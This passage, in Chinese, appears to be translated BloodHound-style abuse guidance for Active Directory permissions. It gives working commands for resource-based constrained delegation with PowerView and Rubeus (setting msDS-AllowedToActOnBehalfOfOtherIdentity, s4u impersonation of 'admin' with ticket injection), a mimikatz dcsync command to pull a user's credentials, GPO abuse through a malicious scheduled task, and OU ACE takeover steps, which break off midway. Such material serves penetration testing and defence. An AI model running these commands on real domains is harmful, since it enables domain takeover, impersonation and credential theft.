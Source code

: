 现在，我们需要以攻击者添加的计算机 SID 为主体构建通用 ACE，并获取新 DACL/ACE 的二进制字节：

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

接下来，我们需要在我们正在接管的计算机帐户的 msDS-AllowedToActOnBehalfOfOtherIdentity 字段中设置这个新创建的安全描述符，在本例中再次使用 PowerView：

```
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

然后我们可以使用 Rubeus 将明文密码哈希为 RC4_HMAC 形式：

```
Rubeus.exe hash /password:Summer2018!
```

最后，我们可以使用 Rubeus 的*s4u*模块来获取我们想要“假装”为“admin”的服务名称 (sname) 的服务票证。该票证被注入（感谢 /ptt），在本例中授予我们对目标计算机文件系统的访问权限：

```
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```

**在域对象上使用 GenericAll**

对域对象的完全控制授予您 DS-Replication-Get-Changes 以及 DS-Replication-Get-Changes-All 权限。这些权限的组合允许您使用 mimikatz 执行 dcsync 攻击。要使用以下权限获取用户harmj0y的凭据：

```
lsadump::dcsync /domain:testlab.local /user:harmj0y
```

**在 GPO 上使用 GenericAll**

完全控制 GPO 后，您可以对该 GPO 进行修改，然后修改将应用于受 GPO 影响的用户和计算机。选择您想要将邪恶策略推送到的目标对象，然后使用 gpedit GUI 修改 GPO，使用允许项目级定位的邪恶策略，例如新的立即计划任务。然后等待至少 2 小时，让组策略客户端拾取并执行新的邪恶策略。有关此滥用行为的更详细记录，请参阅参考文献选项卡

**在 OU 上使用 GenericAll**

通过完全控制 OU，您可以在 OU 上添加新的 ACE，该 ACE 将继承到该 OU 下的对象。以下是两个选项，具体取决于您在此步骤中选择的目标：

通用后代对象接管：

滥用 OU 控制的最简单、最直接的方法是在将继承到所有对象类型的 OU 上应用 GenericAll ACE。同样，这可以使用 PowerView 来完成。这次我们将使用 New-ADObjectAccessControlEntry，它使我们能够更好地控制添加到 OU 的 ACE。

首先，我们需要通过 OU 的 ObjectGUID 而不是其名称来引用 OU。您可以通过单击 OU，然后检查*objectid*值，在 BloodHound GUI 中找到该 OU 的 ObjectGUID

接下来，我们将获取所有对象的 GUID。这应该是“00000000-0000-0000-0000-000000000000”：

```
$Guids = Get-DomainGUIDMap
$AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name
```

